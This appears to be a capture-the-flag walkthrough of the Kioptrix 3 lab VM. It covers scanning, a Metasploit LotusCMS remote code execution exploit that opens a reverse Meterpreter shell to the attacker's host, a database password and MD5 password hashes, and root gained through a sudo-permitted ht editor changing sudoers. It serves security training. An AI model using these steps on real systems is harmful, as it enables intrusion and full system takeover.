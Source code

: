 
Kioptrix:3

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Exploiting LotusCMS - Metasploit
[+] export TERM
[+] Password HASH cracking
[+] Privilege Escalation abusing SUDO right /urs/local/bin/ht
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Results from Nmap Scanning

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.111
Host is up (0.00032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 08:00:27:5D:A4:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.56.111

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Results from Nikto

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.111
+ Target Hostname:    192.168.56.111
+ Target Port:        80
+ Start Time:         2019-10-03 03:06:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7534 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2019-10-03 03:06:12 (GMT-4) (10 seconds)
---------------------------------------------------------------------------

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing we can find a LotusCMS 
Looking for available exploits

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/kioptrix3# searchsploit lotuscms
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                                                                                                       | exploits/php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                                                                                                           | exploits/php/webapps/16982.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Exploitation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/multi/http/lcms_php_exec
msf5 exploit(multi/http/lcms_php_exec) > set rhosts 192.168.56.111
rhosts => 192.168.56.111
msf5 exploit(multi/http/lcms_php_exec) > set uri /
uri => /
msf5 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (38247 bytes) to 192.168.56.111
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.111:51386) at 2019-10-03 03:09:15 -0400

meterpreter > shell
Process 4340 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We found the credentials for the phpmyadmin discovered by nikto 
root : fuckeyou
After loggin into phpmyadmin we found the following accounts and passowrd hashes

dreg : 0d3eccfb887aabd50f243b3f155c0f85
loneferret : 5badcaf789d3d1d09794d8f021f40f0e
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Kioptrix%3A3/kioptrix31.png)
Connecting with ssh

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh loneferret@192.168.56.111
loneferret@192.168.56.111's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Thu Oct  3 03:46:37 2019 from 192.168.56.102
loneferret@Kioptrix3:~$ id
uid=1000(loneferret) gid=100(users) groups=100(users)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
loneferret@Kioptrix3:~$ ht
Error opening terminal: xterm-256color.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Changing the terminal
export TERM=xterm

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation
sudo /usr/local/bin/ht
Change the permissions on user loneferret to the same as roots

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Kioptrix%3A3/kioptrix32.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
loneferret@Kioptrix3:~$ sudo /usr/local/bin/ht
loneferret@Kioptrix3:~$ sudo su
[sudo] password for loneferret: 
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

